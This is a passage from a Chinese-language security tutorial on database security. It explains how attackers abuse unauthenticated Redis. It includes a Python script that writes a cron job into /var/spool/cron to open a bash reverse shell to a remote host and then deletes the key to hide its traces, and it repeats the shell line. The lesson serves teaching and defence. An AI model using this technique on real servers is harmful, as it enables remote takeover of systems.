                             
                            
                            <p id="tip" align="center"></p>
                            <h1 id="title" data-id="16 数据库安全：数据库中的数据是如何被黑客拖取的？" class="title">16 数据库安全：数据库中的数据是如何被黑客拖取的？</h1>
                            <div><p>你好，我是何为舟。</p>

<p>说到数据库，你肯定会说：“数据库是我最熟悉的工具了。利用它，我能够设计复杂的表结构、写出炫酷的SQL语句、优化高并发场景下的读写性能。”当然，我们的日常工作离不开数据库的使用。而且，数据库中储存的大量机密信息，对于公司和用户都至关重要。</p>

<p>那关于数据库的安全你知道多少呢？你知道数据库是如何进行认证的吗？使用数据库交换数据的过程是安全的吗？假如黑客连入了数据库，又会发生什么呢？</p>

<p>今天，我就以两种比较常见的数据库Redis和MySQL为例，来和你一起探讨数据库的安全。</p>

<h2 id="redis安全">Redis安全</h2>

<p>我们首先来看Redis。我们都知道，Redis是一个高性能的KV结构的数据库。Redis的设计初衷是在可信的环境中，提供高性能的数据库服务。因此，Redis在设计上没有过多地考虑安全性，甚至可以说它刻意地牺牲了一定的安全性，来获取更高的性能。</p>

<p>那在安全性不高的情况下，黑客连入Redis能做什么呢？最直接的，黑客能够任意修改Redis中的数据。比如，通过一个简单FLUSHALL命令，黑客就能够清空整个Redis的数据了。</p>

<p>复杂一些的，黑客还可以发起权限提升，通过Redis在服务器上执行命令，从而控制整个服务器。但是，Redis本身不提供执行命令的功能，那么黑客是如何让Redis执行命令的呢？我们一起来看一下具体的代码流程。</p>

<pre><code>r = redis.Redis(host=10.0.0.1, port=6379, db=0, socket_timeout=10)
payload = '\n\n*/1 * * * * /bin/bash -i &gt;&amp; /dev/tcp/1.2.3.4/8080 0&gt;&amp;1\n\n'
path = '/var/spool/cron'
name = 'root'
key = 'payload'
r.set(key, payload)
r.config_set('dir', path)
r.config_set('dbfilename', name)
r.save()
r.delete(key)  # 清除痕迹
r.config_set('dir', '/tmp')
</code></pre>

<p>针对这个过程，我来详细解释一下，你可以结合代码来看。</p>

<ul>
<li>黑客连入Redis。</li>
<li>黑客写入一个任意的Key，对应的Value是想要执行的命令，并按照Crontab的格式进行拼接。代码如下：</li>
</ul>

<pre><code>*/1* * * * /bin/bash -i &gt;&amp; /dev/tcp/1.2.3.4/80800&gt;&amp;1
</code></pre>

<ul>
<li>黑客调用config_set方法，就是通过Redis的CONFIG命令，将Redis数据持久化的目录修改成/var/spool/cron。</li>
<li>黑客调用save方法，通过Redis的SAVE命令，发起Redis的数据持久化功能。最终，Redis将数据写入到/var/spool/cron中。写入的文件效果如下：</li>
</ul>

<p><img src="assets/eb49a749e11c4a7a811c38aa1ad51bfb.jpg" alt="" /></p>
